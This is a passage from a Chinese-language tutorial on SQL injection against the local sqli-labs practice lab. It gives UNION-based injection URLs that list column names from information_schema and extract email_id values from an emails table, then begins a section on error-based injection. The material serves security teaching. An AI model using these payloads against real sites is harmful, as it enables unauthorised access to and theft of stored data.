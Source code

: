 URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，column_name，3+from+information _ schema . columns+where+table _ name = ' emails '+limit+0，1 –+

名为“安全”的数据库中“电子邮件”表的第一列名是“id”。同样，第二个列名是“email_id”。

现在，我们将注入以下 SQL 语句。

```
SELECT email_id FROM emails LIMIT 0,1
```

在此之后，您将得到如下所示的输出。

![](img/eb81eb5617fe7adf93e6bd6823a336c0.png)

URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，email_id，3+from+emails+limit+0，1 –+

通过这种方式，您可以注入查询来访问存储在数据库中的数据。

## 基于错误的 SQLi

这种类型的攻击提供给你的是错误消息而不是输出，所以你只需要在 SQL 错误中注入恶意代码。见下图示例:

![](img/31e547e1b098f6c11084a5b12fad5a97.png)
